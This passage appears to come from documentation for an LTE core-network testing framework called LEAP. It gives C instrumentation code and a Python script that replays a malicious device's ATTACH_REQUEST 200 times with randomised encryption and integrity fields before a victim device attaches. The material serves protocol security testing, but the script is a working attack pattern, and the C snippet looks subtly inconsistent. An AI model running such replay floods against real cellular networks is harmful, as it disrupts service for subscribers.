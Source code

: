 The instrumentation place is the same as numb attack. The leap\_send() intercepts every ATTACH\_REQUEST. If it returns 1 (malicious UE attach), a for loop is initiated to replay the ATTACH\_REQUEST 200 times and each ATTACH\_REQUEST message is obtained from LEAP<sub>C</sub>. If it returns 0 (victim UE attach) the ATTACH\_REQUEST is processed normally.

```c
if(leap_send(assocfd, LEAP_INITIAL_NAS_DATA, nas_est_ind_p->ue_id, (*nas_msg)->data, blength(*nas_msg))){
    for(int i = 0; i < 200; i++){
        int recv_size = sctp_recvmsg(assocfd, recvBuf, 8192, NULL, NULL, NULL, NULL);
        bstring *modified_nas_msg_p = &(blk2str(recvBuf, blength(*nas_msg)))
        nas_proc_establish_ind (nas_est_ind_p->ue_id,
				nas_est_ind_p->tai,
				nas_est_ind_p->cgi,
				&nas_est_ind_p->initial_nas_msg);
    }
}
else{
	nas_proc_establish_ind (nas_est_ind_p->ue_id,
				nas_est_ind_p->tai,
				nas_est_ind_p->cgi,
				&nas_est_ind_p->initial_nas_msg);
}
```

#### Script Example

When LEAP<sub>C</sub> receives LEAP\_INITIAL\_NAS\_DATA indication, it checks flag variable. As flag equals 0, LEAP<sub>C</sub> sends HOLD\_TRUE so that LEAP<sub>S</sub> enters if clause. Then, LEAP<sub>C</sub> initiates a for loop where it sends ATTACH\_REQUEST 200 times. The EEA and EIA field of each ATTACH\_REQUEST is set to a random value. When victim UE initiates attach, the ATTACH\_REQUEST of Victim UE is also intercepted. Since flag equals 1, LEAP<sub>C</sub> sends HOLD\_FALSE so that LEAP<sub>S</sub> enters else clause and process the ATTACH\_REQUEST normally.

```python
from leap import *
from leap.message_def import *
from leap.ittimsg_def import *
from leap.command_def import *
from leap.leapmessage_def import *
from leap.func import *
import time
import random
buf_size = 4096
le = leap("127.0.0.1","7897")
flag = 0

while True:
	message_id, ue_id, length, msg = le.recv(buf_size)
	if message_id == LEAP_INITIAL_NAS_DATA:
		if flag == 0:
			le.hold(True)
			for y in range(200):
				modified_msg = msg[:13] + chr(0x80>>random.randint(0,7)) + chr(0x80>>random.randint(0,7)) + msg[15:]
				le.send(modified_msg)
			flag = 1
		else:
			le.hold(False)
	else:
        le.exit_loop()
```
